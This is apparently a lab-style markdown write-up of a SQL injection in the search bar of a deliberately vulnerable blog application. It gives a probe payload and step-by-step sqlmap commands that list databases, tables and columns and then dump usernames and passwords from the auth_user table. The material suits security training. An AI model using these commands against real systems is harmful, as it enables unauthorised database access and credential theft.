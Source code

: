 # Sql injection 

## SQLI in Search bar

It might seem at first that the search variable will return exactly what was entered so insert a simple payload to check for SQLi `1or1=1-`
Surprisingly, the results returned all the articles in the application's data table

![image](https://user-images.githubusercontent.com/63194321/132503809-073c0af0-404a-4ea9-81b4-b16028215cdb.png)

### Solution
After determining that there is SQLI at this address, we will use sqlmap to scan and attack

B1. Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch`

![image](https://user-images.githubusercontent.com/63194321/132506775-bfe319ad-d1e6-4b7d-9535-31730048cc07.png)

B2. Define a list of databases:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch --dbs`

![image](https://user-images.githubusercontent.com/63194321/132508430-06ebfa6b-66a3-4e06-bd35-7857fab4a5f0.png)

B3. Identify the tables in the database:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132508803-98a9a86f-dca3-419c-84c7-f284a535c659.png)

B4. Define columns in tables:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -columns`

![image](https://user-images.githubusercontent.com/63194321/132509383-9d885446-6ffb-4409-957a-ffeabfbac78e.png)

B5. Get the username and password values:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -C username, password --dump`

![image](https://user-images.githubusercontent.com/63194321/132510741-09017ecd-a95e-4cc5-8f45-b0129742314d.png)


